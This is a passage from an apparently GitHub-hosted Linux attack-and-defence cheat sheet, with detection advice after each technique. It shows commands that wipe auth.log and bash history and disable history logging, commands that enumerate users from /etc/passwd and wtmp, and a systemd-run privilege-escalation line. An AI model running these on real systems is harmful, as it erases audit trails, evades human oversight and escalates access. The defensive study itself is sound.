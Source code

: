 :white_check_mark: How to protect against or detect that technique:

- *Architecture*: Only privileged user that needs to maintain or see the AppArmor configuration should be able to see his configuration.
- *Active Moniroting*: Monitor changes made to the AppArmor configuration

#### Commands to know

```bash
echo "" /var/log/auth.log        # Clear auth.log file
echo "" ~/.bash_history          # Clear current user bash history
rrn ~/.bash_history -rf          # Delete .bash_history file
history -c                       # Clear current session history
export HISTFILESIZE=0            # Set history max lines to 0
export HISTSIZE=0                # Set history max commands to 0
unset HISTFILE                   # Disable history logging (need to logout to take effect)
kill -9 $$                       # Kills current session
ln /dev/null ~/.bash_history -sf # Permanently send all bash history commands to /dev/null

# Check if it logs packets with impossible addresses to kernel log
grep "net\.ipv4\.conf\.all\.log_martians" /etc/sysctl.conf /etc/sysctl.d/*
grep "net\.ipv4\.conf\.default\.log_martians" /etc/sysctl.conf 
```

:white_check_mark: How to protect against or detect that technique:

- *Passive Control*: Use File Integrity Tools For Critical System Files on files that should not be modified outside authorized announced intervention
- *Active Control*: Monitor access and/or changes to sensitive files

### Users

#### User Enumeration

```bash
lastlog # Reports the most recent login of all users
last -f /var/log/wtmp # wtmp is a file on the Linux, Solaris, and BSD operating systems that keeps a history of all logins and logouts.
ls -la /home # Enumerate users (via /home)
cat /etc/passwd # Enumerate users (via /etc/passwd)
cat /etc/passwd | egrep -e '/bin/(ba)?sh' # Enumerate users that has shell access
```

#### Group Membership Privilege Escalation

```bash
id # Print real and effective user and group IDs
```

Some Linux were affected by a bug that when the User ID was superior to INT_MAX, you could escalate privileges.

```bash
systemd-run -t /bin/bash
```

##### Shadow
